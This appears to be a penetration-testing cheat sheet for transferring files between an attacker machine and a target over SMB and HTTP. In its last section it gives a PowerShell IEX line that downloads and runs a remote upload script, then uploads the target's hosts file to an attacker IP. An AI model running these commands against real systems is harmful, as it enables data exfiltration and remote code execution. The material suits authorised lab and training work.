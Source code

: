 # Links to CheatSheets
https://guide.offsecnewbie.com/transferring-files


# SMB Server
```bash
impacket-smbserver -smb2support share_name /path/to/share
```
copy files
```powershell
Copy-Item -Path "\\10.10.10.10\test\file.txt" -Destination "C:\destination\file.txt"
copy "\\10.10.10.10\test\file.txt" "C:\destination\file.txt"
```


# From target share
```bash
smbget --recursive smb://10.10.10.100/sharename
```

# Web
```bash
Invoke-WebRequest -Uri $url -OutFile $outputPath
```

## Uploading to attacker machine
```bash
py -m uploadserver
```
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```